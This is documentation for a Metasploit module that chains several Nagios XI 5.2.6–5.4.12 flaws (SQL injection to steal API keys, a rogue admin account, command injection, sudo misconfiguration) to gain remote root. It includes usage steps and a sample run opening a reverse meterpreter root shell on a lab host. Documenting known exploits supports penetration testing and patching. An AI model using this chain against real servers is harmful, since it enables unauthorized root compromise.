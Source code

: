 ## Vulnerable Application
  Nagios XI 5.2.6 - 5.4.12 Chained Remote Root RCE

  This exploit combines many different vulnerabilities in Nagios XI to
  gain remote root access to the affected host. The process is:

  1. Reset the database user to root.
  2. Exploit SQL injection to extract api keys.
  3. Use api key to add administrative user.
  4. Authenticate to application using newly added user.
  5. Exploit command injection and sudo misconfiguration
     to get remote root shell.
  6. Remove added admin user, and reset database user.

  See [our blog post](http://blog.redactedsec.net/exploits/2018/04/26/nagios.html) for more information

## Verification Steps

  1. `use exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo`
  2. `set rhost <IP>`
  3. `exploit`
  4. A meterpreter session should have been opened successfully

## Scenarios

### Nagios 5.2.7 on CentOS 6.7

```
msf > use exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo
msf exploit(linux/http/nagios_xi_chained_rce_2_electric_boogaloo) > set rhost 172.22.222.182
rhost => 172.22.222.182
msf exploit(linux/http/nagios_xi_chained_rce_2_electric_boogaloo) > run

[*] Started reverse TCP handler on 172.22.222.177:4444
[*] Command Stager progress - 100.00% done (705/705 bytes)
[*] Sending stage (857352 bytes) to 172.22.222.182
[*] Meterpreter session 1 opened (172.22.222.177:4444 -> 172.22.222.182:35262) at 2018-06-29 11:04:03 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 6.9 (Linux 2.6.32-696.10.2.el6.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
